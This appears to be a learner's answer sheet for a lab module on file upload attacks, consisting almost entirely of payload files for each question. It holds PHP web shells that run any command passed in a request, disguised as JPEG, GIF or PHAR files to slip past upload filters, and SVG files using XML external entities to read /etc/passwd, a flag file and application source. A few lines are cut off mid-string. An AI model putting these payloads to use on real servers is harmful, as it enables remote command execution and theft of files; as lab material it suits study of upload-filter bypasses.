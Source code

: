 # Useful Links
[PHP extension list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

# Useful Shells

## Question 1
shell.php
```php
<?php system('hostname'); ?>
```

## Question 2
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 3
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 4
shell.phar
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 5
shell.phar.jpg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

## Question 6
shell.phar.gif
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```
shell.gif.phar
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```

## Question 7
shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
shell3.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resourc>
<svg>&xxe;</svg>
```

## Skills Assessment - File Upload Attacks

shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=common-functions.php"> ]>
<svg>&xxe;</svg>
```

shell.phar.jpeg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

